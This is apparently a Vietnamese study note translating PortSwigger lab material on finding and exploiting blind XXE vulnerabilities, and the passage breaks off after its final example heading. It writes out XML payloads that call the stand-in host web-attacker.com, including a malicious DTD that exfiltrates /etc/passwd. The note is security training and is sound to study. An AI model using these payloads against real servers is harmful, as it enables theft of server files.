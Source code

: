 # Finding and exploiting blind XXE vulnerabilities
Trong phần này, chúng tôi sẽ giải thích tính năng chèn XXE mù là gì và mô tả các kỹ thuật khác nhau để tìm và khai thác các lỗ hổng XXE mù.
## What is blind XXE?
Lỗ hổng XXE mù phát sinh khi ứng dụng dễ bị tiêm XXE nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào được xác định trong phản hồi của nó. Điều này có nghĩa là không thể truy xuất trực tiếp các tệp phía máy chủ và do đó, XXE mù thường khó khai thác hơn các lỗ hổng XXE thông thường.\
Có hai cách chính để bạn có thể tìm và khai thác các lỗ hổng XXE ẩn:
- Bạn có thể kích hoạt các tương tác mạng ngoài băng tần, đôi khi lọc dữ liệu nhạy cảm trong dữ liệu tương tác.
- Bạn có thể kích hoạt các lỗi phân tích cú pháp XML theo cách các thông báo lỗi chứa dữ liệu nhạy cảm.
## Detecting blind XXE using out-of-band (OAST) techniques
Bạn thường có thể phát hiện XXE mù bằng cách sử dụng kỹ thuật tương tự như đối với các cuộc tấn công XXE SSRF nhưng kích hoạt tương tác mạng ngoài băng tần với hệ thống mà bạn kiểm soát. Ví dụ: bạn sẽ xác định một thực thể bên ngoài như sau:\
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`\
Sau đó, bạn sẽ sử dụng thực thể được xác định trong một giá trị dữ liệu trong XML.\
Cuộc tấn công XXE này khiến máy chủ thực hiện yêu cầu HTTP tới URL được chỉ định. Kẻ tấn công có thể theo dõi kết quả tra cứu DNS và yêu cầu HTTP, từ đó phát hiện rằng cuộc tấn công XXE đã thành công.

Ví dụ: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

Bài này chỉ cần bắn gói tin ra ngoài:\ 
![alt text](image-4.png)

Đôi khi, các cuộc tấn công XXE sử dụng các thực thể thông thường bị chặn do một số xác thực đầu vào của ứng dụng hoặc việc tăng cường trình phân tích cú pháp XML đang được sử dụng. Trong trường hợp này, bạn có thể sử dụng các thực thể tham số XML để thay thế. Các thực thể tham số XML là một loại thực thể XML đặc biệt chỉ có thể được tham chiếu ở nơi khác trong DTD. Vì mục đích hiện tại, bạn chỉ cần biết hai điều. Đầu tiên, việc khai báo một thực thể tham số XML bao gồm ký tự phần trăm trước tên thực thể:\
`<!ENTITY % myparameterentity "my parameter entity value" >`\
Và thứ hai, các thực thể tham số được tham chiếu bằng ký tự phần trăm thay vì ký hiệu thông thường:\
`%myparameterentity;`\
Điều này có nghĩa là bạn có thể kiểm tra XXE mù bằng cách sử dụng tính năng phát hiện ngoài băng tần thông qua các thực thể tham số XML như sau:\
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`\
Tải trọng XXE này khai báo một thực thể tham số XML có tên là xxe và sau đó sử dụng thực thể đó trong DTD. Điều này sẽ thực hiện tra cứu DNS và yêu cầu HTTP tới miền của kẻ tấn công, xác minh rằng cuộc tấn công đã thành công.

Ví dụ: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities

Tạo 1 thực thể: `% xxe`, gọi lại thực thể đó để thực thi gửi yêu cầu HTTP: `%xxe`:\
![alt text](image-5.png)

## Exploiting blind XXE to exfiltrate data out-of-band
Việc phát hiện lỗ hổng XXE mù thông qua các kỹ thuật ngoài băng tần là rất tốt, nhưng nó không thực sự chứng minh được lỗ hổng có thể bị khai thác như thế nào. Điều mà kẻ tấn công thực sự muốn đạt được là lấy cắp dữ liệu nhạy cảm. Điều này có thể đạt được thông qua lỗ hổng XXE mù, nhưng nó liên quan đến việc kẻ tấn công lưu trữ một DTD độc hại trên hệ thống mà chúng kiểm soát, sau đó gọi DTD bên ngoài từ bên trong tải trọng XXE trong băng tần.\
Một ví dụ về DTD độc hại nhằm lấy cắp nội dung của tệp `/etc/passwd` như sau:\
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
DTD này thực hiện các bước sau:\
- Xác định một thực thể tham số XML được gọi là `file`, chứa nội dung của tệp `/etc/passwd`.
- Xác định một thực thể tham số XML có tên là `eval`, chứa khai báo động của một thực thể tham số XML khác có tên là `exfiltrate`. Thực thể `exfiltrate` sẽ được đánh giá bằng cách tạo một yêu cầu HTTP tới máy chủ web của kẻ tấn công có chứa giá trị của thực thể `file` trong chuỗi truy vấn URL.
- Sử dụng thực thể `eval` để thực hiện khai báo động của thực thể `exfiltrate`.
- Sử dụng thực thể `exfiltrate` để giá trị của nó được đánh giá bằng cách yêu cầu URL được chỉ định

Sau đó, kẻ tấn công phải lưu trữ DTD độc hại trên hệ thống mà chúng kiểm soát, thông thường bằng cách tải nó lên máy chủ web của riêng chúng. Ví dụ: kẻ tấn công có thể phân phát DTD độc hại tại URL sau:\
`http://web-attacker.com/malicious.dtd`\
Cuối cùng, kẻ tấn công phải gửi tải trọng XXE sau tới ứng dụng dễ bị tấn công:\
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Payload XXE này khai báo một thực thể tham số XML có tên là `xxe` và sau đó sử dụng thực thể đó trong DTD. Điều này sẽ khiến trình phân tích cú pháp XML tìm nạp DTD bên ngoài từ máy chủ của kẻ tấn công và diễn giải nó nội tuyến. Sau đó, các bước được xác định trong DTD độc hại sẽ được thực thi và tệp `/etc/passwd` được truyền đến máy chủ của kẻ tấn công.

Kỹ thuật này có thể không hoạt động với một số nội dung tệp, bao gồm các ký tự dòng mới có trong tệp `/etc/passwd`. Điều này là do một số trình phân tích cú pháp XML tìm nạp URL trong định nghĩa thực thể bên ngoài bằng cách sử dụng API xác thực các ký tự được phép xuất hiện trong URL. Trong trường hợp này, có thể sử dụng giao thức `FTP` thay vì `HTTP`. Đôi khi, không thể lọc dữ liệu chứa các ký tự dòng mới và do đó, thay vào đó, một tệp như `/etc/hostname` có thể được nhắm mục tiêu.

Ví dụ: 







